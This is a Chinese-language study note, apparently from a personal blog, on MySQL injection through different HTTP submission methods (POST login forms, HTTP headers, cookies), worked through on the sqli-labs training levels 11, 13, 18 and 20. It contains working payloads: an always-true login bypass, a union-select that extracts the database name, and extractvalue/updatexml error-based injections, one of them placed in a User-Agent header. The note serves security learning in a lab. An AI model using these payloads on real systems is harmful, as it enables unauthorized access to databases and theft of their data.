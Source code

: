# 05-mysql提交方式注入

  
# 常见提交方式下的注入漏洞

>前言：WEB应用在数据传递接受中，针对SQL注入安全漏洞，由于数据大小，格式等原因，脚本在接受传递时会有多种传递方式，传递方式的不同将影响到安全测试的不同！本课将针对此类问题进行逐一讲解。


  
## 第一点：数据常见提交方式

`https://www.cnblogs.com/weibanggang/p/9454581.html`





  
## 第二点：产生注入的接受方式

例子：GET
POST：
COOKIE ：
REQUEST ：     $_REQUEST()  何种方法都可以接参数
SERVER： http头部注入。$_SERVER           https://www.cnblogs.com/jianmingyuan/p/5900064.html
等





## 第三点：实战测试案例-sqlilabs关卡

#### post登陆框注入-sqlilabs less13

涉及知识点:   万能密码

Less-13 无回显
Less-11 有回显

```sql
-- 一般是没有括号的，先手工，再工具试试有没有其他符号干扰
-- 可以用hackbar等进行post参数注入

-- 方法1
')or 1=1 -- + 
-- 然后开始按照步骤开始利用 （盲猜  order by 3, 库名，表，列，数据）
admin') union select null,database()#
-- 这里面没回显数据的 地方，想办法让他报错/工具跑
-- sqlmap  post参数是  --data ""

-- 下面的没成功， 可以再试试
admin') union select count(*), concat(select database()) as admin from information_schema.tables group by admin\

-- 报错注入
admin') and extractvalue(1,concat(0x7e,(select database()),0x7e))#


+加号类似空格  


```

#### http头部注入-sqlilabs less18

$_SERVER()

比如站长之家获取我的浏览器的数据，其中http头部可以修改（你懂得）

```sql

```




#### cookie修改注入-sqlilabs less20

无回显  

```sql
-- 大概是这样
User-Agent: admin' or updatexml(1,concat(0x7e,database(),0x7e),0) or '


```

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/05-mysql%E6%8F%90%E4%BA%A4%E6%96%B9%E5%BC%8F%E6%B3%A8%E5%85%A5/  

